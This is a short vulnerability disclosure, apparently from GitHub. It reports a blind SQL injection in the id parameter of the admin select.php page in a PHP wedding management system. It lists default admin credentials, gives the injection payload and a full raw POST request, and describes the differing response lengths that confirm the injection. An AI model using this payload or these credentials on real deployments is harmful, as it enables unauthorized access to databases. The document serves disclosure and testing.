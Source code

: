 # WeddingManagement System v1.0 by codeastr.com has SQL injection

Author： k0xx

The password for the backend login account is: admin@mail.com/Password@123

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: /Wedding-Management/admin/select.php

Vulnerability location: /Wedding-Management/admin/select.php,id

[+] Payload: id=1 and length(database()) =9 // Leak place ---> id

Current database name: dbwedding,length is 9

```sql
POST /Wedding-Management/admin/select.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

id=1 and length(database()) =9
```

When length (database ()) = 8, Content-Length: 397

![image](https://user-images.githubusercontent.com/54017627/167994575-97715a69-9954-49c5-b432-6d3a8ec1d4c8.png)

![image](https://user-images.githubusercontent.com/54017627/167994398-25fcaa80-81ea-41e2-954b-80174f08ec79.png)

When length (database ()) = 9, Content-Length: 909

![image](https://user-images.githubusercontent.com/54017627/167994605-88fdc305-f19a-434f-8b94-b545db6e8951.png)

![image](https://user-images.githubusercontent.com/54017627/167994376-97dbd3bc-401a-4bcb-947f-5891e3e931db.png)
